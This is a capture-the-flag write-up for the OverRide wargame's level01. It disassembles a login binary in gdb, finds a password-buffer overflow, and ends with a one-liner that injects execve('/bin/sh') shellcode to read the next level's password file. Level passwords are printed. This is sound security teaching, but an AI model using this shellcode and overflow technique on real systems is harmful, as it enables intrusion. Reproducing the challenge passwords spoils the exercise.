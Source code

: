 ```shell
┌──$ [~/42/2022/override]
└─>  ssh -p4242 192.168.0.23 -l level01
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.0.23:4242
level01@192.168.0.23's password: uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```
Three user functions and a global uninitialized variable of 100 bytes are declared.
```nasm
gdb-peda$ info functions
All defined functions:

[...]
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
[...]
```
```shell
level01@OverRide:~$ objdump -t ./level01 | grep bss
[...]
0804a040 g     O .bss	00000064              a_user_name
```
Declaration and initialization of local array `user_pass` to value `0`.
```nasm
gdb-peda$ disass main
[...]
   0x080484d8 <+8>: sub    esp,0x60
   0x080484db <+11>:	lea    ebx,[esp+0x1c]
   0x080484df <+15>:	mov    eax,0x0
   0x080484e4 <+20>:	mov    edx,0x10
   0x080484e9 <+25>:	mov    edi,ebx
   0x080484eb <+27>:	mov    ecx,edx
   0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax
[...]
```
It gets a user name from `stdin`.
```nasm
gdb-peda$ disass main
[...]
   0x08048510 <+64>:	mov    eax,ds:0x804a020          # stdin
   0x08048515 <+69>:	mov    DWORD PTR [esp+0x8],eax
   0x08048519 <+73>:	mov    DWORD PTR [esp+0x4],0x100 # 256 bytes
   0x08048521 <+81>:	mov    DWORD PTR [esp],0x804a040 # a_user_name
   0x08048528 <+88>:	call   0x8048370 <fgets@plt>
[...]
```

It initialize `esi` register to point at `a_user_name` and the `edi` register to the string `dat_wil`. Then it repeats a comparaison of bytes as long as `[esi]` and `[edi]` are equal.
So input can begin with exact match and the rest part can be anything.
```nasm
gdb-peda$ disass verify_user_name
[...]
   0x08048478 <+20>:	mov    edx,0x804a040
   0x0804847d <+25>:	mov    eax,0x80486a8
   0x08048482 <+30>:	mov    ecx,0x7
   0x08048487 <+35>:	mov    esi,edx
   0x08048489 <+37>:	mov    edi,eax
   0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
[...]
gdb-peda$ x/s 0x804a040
0x804a040 <a_user_name>:	 ""
gdb-peda$ x/s 0x80486a8
0x80486a8:	 "dat_wil"
```
It gets a user password from `stdin` and calls `verify_user_pass` function.
```nasm
gdb-peda$ disass main
[...]
   0x0804855c <+140>:	mov    eax,ds:0x804a020
   0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
   0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804856d <+157>:	lea    eax,[esp+0x1c]
   0x08048571 <+161>:	mov    DWORD PTR [esp],eax
   0x08048574 <+164>:	call   0x8048370 <fgets@plt>
   0x08048579 <+169>:	lea    eax,[esp+0x1c]
   0x0804857d <+173>:	mov    DWORD PTR [esp],eax
   0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>
[...]
```
Inside `verify_user_pass` it compares bytes of `user_pass` and litteral string `admin`, then return the result.
```nasm
[...]
gdb-peda$ disass verify_user_pass
[...]
   0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484ab <+8>:	mov    edx,eax
   0x080484ad <+10>:	mov    eax,0x80486b0
   0x080484b2 <+15>:	mov    ecx,0x5
   0x080484b7 <+20>:	mov    esi,edx
   0x080484b9 <+22>:	mov    edi,eax
   0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080484bd <+26>:	seta   dl
   0x080484c0 <+29>:	setb   al
[...]
gdb-peda$ x/s 0x80486b0
0x80486b0:	 "admin"
```
But use of retrieved credentials, username `dat_wil` and password `admin`, do not allow anything and the program returns 1 with error message `nope, incorrect password...`.
```nasm
   0x08048589 <+185>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x0804858e <+190>:   je     0x8048597 <main+199>
   0x08048590 <+192>:   cmp    DWORD PTR [esp+0x5c],0x0
   0x08048595 <+197>:   je     0x80485aa <main+218>
```
```shell
level01@OverRide:~$ ./level01; echo $?
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

1
```
`fgets()` reads in at most one less than 100 bytes from `stdin` and stores the input into the 64-bytes buffer `user_pass`. Which is 36 bytes more than allocated buffer. It means that `user_pass` variable can be overflowed and the value of `EIP` can be overwritten.
```nams
   0x0804855c <+140>:   mov    eax,ds:0x804a020          // eax = stdin
=> 0x08048561 <+145>:   mov    DWORD PTR [esp+0x8],eax   // stdin);
   0x08048565 <+149>:   mov    DWORD PTR [esp+0x4],0x64  // 100, stdin);
   0x0804856d <+157>:   lea    eax,[esp+0x1c]            // eax = user_pass
   0x08048571 <+161>:   mov    DWORD PTR [esp],eax       // user_pass, 100, stdin);
   0x08048574 <+164>:   call   0x8048370 <fgets@plt>     // fgets(user_pass, 100, stdin);
```

To find offset, generate a string of 100 bytes legth using (BOEIPOSG)[https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/).
```nasm
(gdb) start
Temporary breakpoint 1 at 0x80484d5
Starting program: /home/users/level01/level01

Temporary breakpoint 1, 0x080484d5 in main ()
(gdb) c
Continuing.
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
Program exit on `EIP` value 0x37634136 which gives offset of 80 bytes.

As `a_user_name` is defined with 100 bytes, a shell code can be placed after `dat_wil` and EIP overwritten to `a_user_name+7`.
```shell
level01@OverRide:~$ (python -c "import struct; print('dat_wil\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\n' + 'A'*80 + struct.pack('I', 0x0804a047))"; echo 'cat /home/users/$(whoami)/.pass') | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
